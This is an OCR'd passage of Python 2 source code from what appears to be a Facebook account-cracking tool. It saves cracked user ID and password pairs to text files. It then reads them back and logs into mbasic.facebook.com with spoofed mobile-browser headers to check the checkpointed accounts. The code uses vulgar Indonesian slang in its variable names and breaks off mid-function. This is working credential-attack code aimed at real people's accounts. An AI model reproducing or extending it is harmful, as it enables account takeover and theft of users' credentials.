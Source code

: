 			except:pass
			print("\r\x1b[1;33m [prem-CP] %s • %s\033[0;97m        "%(uid, pw))
			cp.append("%s | %s"%(uid, pw))
			open("cp.txt","a").write("%s | %s\n"%(uid, pw))
			open("checkcp.txt","a").write("%s | %s\n"%(uid, pw))
			break
		else:
			continue

	loop += 1				

def hasil():
	if len(ok) != 0 or len(cp) != 0:
		exit(proff.langsung())
	else:
		exit("\n%s [%s•%s] single? :v\n%s [%s!%s] That's why I can't get results :v"%(p,k,p,p,m,p))

def langsung():
    global token
    silet = raw_input("\n %s[%s•%s] Check Option Account ? y/n\n%s [%s•%s] Choose: "%(p,k,p,p,k,p))
    if silet in ["y","Y"]:
        option_sesi()
    elif silet in ["n","N"]:
        os.remove('checkcp.txt')
        menu()
    else: 
        exit("\n%s [%s!%s] Unknown!"%(p,m,p))

# Check Option Crack Langsung ###
def option_sesi():
	files = ("checkcp.txt")
	try:
		buka_baju = open(files, "r").readlines()
	except IOError:
		exit("\n%s [%s!%s] Files %s%s%s Not found!"%(p,m,p,h,files,p))
	for memek in buka_baju:
		kontol = memek.replace("\n","")
		titid  = kontol.split(" | ")
		print("\n\033[0;93m\033[0;97m [\033[1;33m•\033[1;37m] Account : "+(kontol.replace(" + ","")))
		try:
			asui(titid[0].replace(" + ",""), titid[1])
		except requests.exceptions.ConnectionError:
			pass
	os.remove('checkcp.txt')
	exit("\n%s [%s✓%s] Done"%(p,h,p))

def asui(user, pasw):
	mb = ("https://mbasic.facebook.com")
	ua = ("Mozilla/5.0 (Linux; Android 10; Mi 9T Pro Build/QKQ1.190825.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.181 Mobile Safari/537.36[FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]")
	ses = requests.Session()
	# kntl bapackkau pecah
	ses.headers.update({"Host": "mbasic.facebook.com","cache-control": "max-age=0","upgrade-insecure-requests": "1","origin": mb,"content-type": "application/x-www-form-urlencoded","user-agent": ua,"accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9","x-requested-with": "mark.via.gp","sec-fetch-site": "same-origin","sec-fetch-mode": "navigate","sec-fetch-user": "?1","sec-fetch-dest": "document","referer": mb+"/login/?next&ref=dbl&fl&refid=8","accept-encoding": "gzip, deflate","accept-language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"})
	data = {}
	ged = parser(ses.get(mb+"/login/?next&ref=dbl&fl&refid=8", headers={"user-agent":ua}).text, "html.parser")